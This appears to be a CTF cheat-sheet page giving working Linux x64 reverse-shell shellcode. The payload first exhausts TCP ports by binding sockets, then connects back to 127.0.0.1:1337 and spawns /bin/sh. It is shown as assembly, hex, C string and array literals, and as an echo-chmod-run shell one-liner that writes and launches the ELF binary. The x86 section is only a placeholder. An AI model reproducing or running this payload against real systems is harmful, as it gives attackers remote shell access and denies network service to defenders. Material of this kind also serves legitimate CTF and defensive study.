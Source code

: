 ```yaml
---
title: How to be a badass in Attack-Defense CTF
tags: ["CTF", "PWN"]
---
```


*Linux Reverse TCP Shell and Exhausted TCP Ports*

# Table of Contents

- [Linux/x64](#linux-x64)
  - [Assembly](#linux-x64-assembly)
  - [Other formats](#linux-x64-other-formats)
- [Linux/x86](#linux-x86)
  - [Assembly](#linux-x86-assembly)
  - [Other formats](#linux-x86-other-formats)
- [References](#references)

<!-- description -->

## <a id='linux-x64'></a>Linux/x64

### <a id='linux-x64-assembly'></a>Assembly

```nasm
      xor rcx, rcx
      push rcx
      mov cx, 0xffff
      push rcx
;// for(int i=0; i<0x10000; i++){ bind(socket(AF_INET, SOCK_STEAM, 6), &sockaddr, socklen); }
exhausted:
      ;// socket(AF_INET, SOCK_STEAM, 6);
      push 0x2
      pop rdi
      push 0x1
      pop rsi
      push 0x6
      pop rdx
      push 0x29
      pop rax
      syscall

      ;// bind(sockfd, sockaddr, 0x10);
      push rax
      pop rdi
      pop rcx
      push rcx
      shl rcx, 16
      mov cl, 2
      push rcx
      mov rsi, rsp
      push 0x10
      pop rdx
      push 0x31
      pop rax
      syscall
      pop rcx
      pop rcx
      dec rcx
      pop rbx
      test rax, rax
      jne bind_fail
      push rdi
      pop rbx
bind_fail:
      push rbx
      test rcx, rcx
      push rcx
      jne exhausted

      ;// connect(sockfd, &sockaddr, socklen)
      pop rax
      pop rdi
      push rax
      mov byte ptr [rsp], 0x2
      mov word ptr [rsp+2], 0x3713 ;// port 0x1337
      mov dword ptr [rsp+4], 0x0100007f ;// addr 127.0.0.1
      mov rsi, rsp
      push 0x10
      pop rdx
      push 0x2a
      pop rax
      syscall 
      push 0x3
      pop rsi

dupio:
      dec rsi
      push 0x21
      pop rax
      syscall
      jne dupio

shell:
      xor rdx, rdx
      movabs rbx,0x68732f6e69622f2f
      shr rbx, 0x8
      push rbx
      mov rdi, rsp
      push rdx
      push rdi
      mov rsi, rsp
      push 0x3b
      pop rax
      syscall
```

### <a id='linux-x64-other-formats'></a>Other formats:

| Format | Value |
| ------ | ----- |
| Raw Hex | 4831C95166B9FFFF516A025F6A015E6A065A6A29580F05505F595148C1E110B102514889E66A105A6A31580F05595948FFC95B4885C07502575B534885C95175C8585F50C604240266C7442402[**1337**](#0x1337)C7442404[**7F000001**](#127.0.0.1)4889E66A105A6A2A580F056A035E48FFCE6A21580F0575F64831D248BB2F2F62696E2F736848C1EB08534889E752574889E66A3B580F05 |
| String Literal | \x48\x31\xC9\x51\x66\xB9\xFF\xFF\x51\x6A\x02\x5F\x6A\x01\x5E\x6A\x06\x5A\x6A\x29\x58\x0F\x05\x50\x5F\x59\x51\x48\xC1\xE1\x10\xB1\x02\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x31\x58\x0F\x05\x59\x59\x48\xFF\xC9\x5B\x48\x85\xC0\x75\x02\x57\x5B\x53\x48\x85\xC9\x51\x75\xC8\x58\x5F\x50\xC6\x04\x24\x02\x66\xC7\x44\x24\x02[**\x13\x37**](#0x1337)\xC7\x44\x24\x04[**\x7F\x00\x00\x01**](#127.0.0.1)\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05\x6A\x03\x5E\x48\xFF\xCE\x6A\x21\x58\x0F\x05\x75\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x52\x57\x48\x89\xE6\x6A\x3B\x58\x0F\x05 |
| Array Literal | {0x48,0x31,0xC9,0x51,0x66,0xB9,0xFF,0xFF,0x51,0x6A,0x02,0x5F,0x6A,0x01,0x5E,0x6A,0x06,0x5A,0x6A,0x29,0x58,0x0F,0x05,0x50,0x5F,0x59,0x51,0x48,0xC1,0xE1,0x10,0xB1,0x02,0x51,0x48,0x89,0xE6,0x6A,0x10,0x5A,0x6A,0x31,0x58,0x0F,0x05,0x59,0x59,0x48,0xFF,0xC9,0x5B,0x48,0x85,0xC0,0x75,0x02,0x57,0x5B,0x53,0x48,0x85,0xC9,0x51,0x75,0xC8,0x58,0x5F,0x50,0xC6,0x04,0x24,0x02,0x66,0xC7,0x44,0x24,0x02,[**0x13,0x37**](#0x1337),0xC7,0x44,0x24,0x04,[**0x7F,0x00,0x00,0x01**](#127.0.0.1),0x48,0x89,0xE6,0x6A,0x10,0x5A,0x6A,0x2A,0x58,0x0F,0x05,0x6A,0x03,0x5E,0x48,0xFF,0xCE,0x6A,0x21,0x58,0x0F,0x05,0x75,0xF6,0x48,0x31,0xD2,0x48,0xBB,0x2F,0x2F,0x62,0x69,0x6E,0x2F,0x73,0x68,0x48,0xC1,0xEB,0x08,0x53,0x48,0x89,0xE7,0x52,0x57,0x48,0x89,0xE6,0x6A,0x3B,0x58,0x0F,0x05} |
| Shell Script | echo -en `'`\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x3e\x00\x01\x00\x00\x00\x80\x00\x40\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x40\x00\x38\x00\x01\x00\x40\x00\x05\x00\x04\x00\x01\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\x00\x00\x40\x00\x00\x00\x00\x00\x0e\x01\x00\x00\x00\x00\x00\x00\x0e\x01\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x48\x31\xc9\x51\x66\xb9\xff\xff\x51\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x50\x5f\x59\x51\x48\xc1\xe1\x10\xb1\x02\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x59\x59\x48\xff\xc9\x5b\x48\x85\xc0\x75\x02\x57\x5b\x53\x48\x85\xc9\x51\x75\xc8\x58\x5f\x50\xc6\x04\x24\x02\x66\xc7\x44\x24\x02[**\x13\x37**](#0x1337)\xc7\x44\x24\x04[**\x7f\x00\x00\x01**](#127.0.0.1)\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x01\x00\x80\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\xf1\xff\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x16\x00\x00\x00\x00\x00\x01\x00\x89\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x01\x00\xba\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x2a\x00\x00\x00\x00\x00\x01\x00\xe5\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x30\x00\x00\x00\x00\x00\x01\x00\xef\x00\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x3b\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x36\x00\x00\x00\x10\x00\x01\x00\x0e\x01\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x00\x00\x00\x10\x00\x01\x00\x0e\x01\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x49\x00\x00\x00\x10\x00\x01\x00\x10\x01\x60\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x62\x61\x64\x61\x73\x73\x2d\x6c\x69\x6e\x75\x78\x2d\x78\x36\x34\x2e\x61\x73\x6d\x00\x65\x78\x68\x61\x75\x73\x74\x65\x64\x00\x62\x69\x6e\x64\x5f\x66\x61\x69\x6c\x00\x64\x75\x70\x69\x6f\x00\x73\x68\x65\x6c\x6c\x00\x5f\x5f\x62\x73\x73\x5f\x73\x74\x61\x72\x74\x00\x5f\x65\x64\x61\x74\x61\x00\x5f\x65\x6e\x64\x00\x00\x2e\x73\x79\x6d\x74\x61\x62\x00\x2e\x73\x74\x72\x74\x61\x62\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x01\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x80\x00\x40\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00\x8e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x01\x00\x00\x00\x00\x00\x00\x08\x01\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x07\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00\x09\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x18\x02\x00\x00\x00\x00\x00\x00\x4e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x66\x02\x00\x00\x00\x00\x00\x00\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`'` > badass-linux-x64 && chmod +x badass-linux-x64 && ./badass-linux-x64 |

## <a id='linux-x86'></a>Linux/x86

### <a id='linux-x86-assembly'></a>Assembly

```nasm
Coming soon...
```

### <a id='linux-x86-other-formats'></a>Other formats:

| Format | Value |
| ------ | ----- |
| Raw Hex | Coming soon... |
| String Literal | Coming soon... |
| Shell Script | Coming soon... |

## References

1. [Linux/x86-64 - Reverse TCP shell - 118 bytes](http://shell-storm.org/shellcode/files/shellcode-857.php) *by Russell Willis*
2. [Linux/x86-64 - TCP bind shell - 150 bytes](http://shell-storm.org/shellcode/files/shellcode-858.php) *by Russell Willis*